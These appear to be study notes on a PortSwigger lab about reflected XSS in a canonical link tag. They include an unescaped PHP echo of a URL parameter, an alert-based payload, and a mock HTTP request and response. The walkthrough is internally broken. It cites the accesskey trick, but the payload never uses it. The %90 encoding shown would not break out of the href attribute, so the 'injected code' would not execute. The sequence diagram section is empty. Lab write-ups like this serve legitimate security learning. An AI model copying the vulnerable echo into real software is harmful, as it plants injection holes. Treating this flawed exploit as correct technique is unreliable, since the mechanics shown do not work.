

## Detailed Exploit Walkthrough

### Step-by-Step Mechanics

1. **Identify the Vulnerable Parameter**:
   - Determine which parameter in the URL or form input is vulnerable to XSS.
   
2. **Craft the Exploit String**:
   - Construct the exploit string with the appropriate encoding and script injection.
   
3. **Inject the Exploit**:
   - Submit the crafted URL or form input to the web application.
   
4. **Trigger the Script Execution**:
   - Use the `accesskey` attribute to ensure the script executes when the user interacts with the page.

### Complete Example

#### Vulnerable Code

```html
<!-- Vulnerable code -->
<link rel="canonical" href="<?php echo $_GET['url']; ?>">
```

#### Exploit String

```http
GET /page?url=https://example.com/page?param=%90onclick=alert('XSS') HTTP/1.1
Host: example.com
```

#### Injected Code

```html
<!-- Injected code -->
<link rel="canonical" href="https://example.com/page?param=%90onclick=alert('XSS')">
```

### Full HTTP Request and Response

#### HTTP Request

```http
GET /page?url=https://example.com/page?param=%90onclick=alert('XSS') HTTP/1.1
Host: example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Date: Mon, 10 Jan 2022 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
Connection: keep-alive

<!DOCTYPE html>
<html>
<head>
    <title>Example Page</title>
    <link rel="canonical" href="https://example.com/page?param=%90onclick=alert('XSS')">
</head>
<body>
    <h1>Welcome to Example Page</h1>
</body>
</html>
```

### Sequence Diagram



---
<!-- nav -->
[[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/21-Lab 20 Reflected XSS in canonical link tag/03-Common Pitfalls and Mistakes|Common Pitfalls and Mistakes]] | [[Web Security (PortSwigger)/03-Cross-Site Scripting (XSS)/21-Lab 20 Reflected XSS in canonical link tag/00-Overview|Overview]] | [[05-Detailed Walkthrough of the Lab|Detailed Walkthrough of the Lab]]
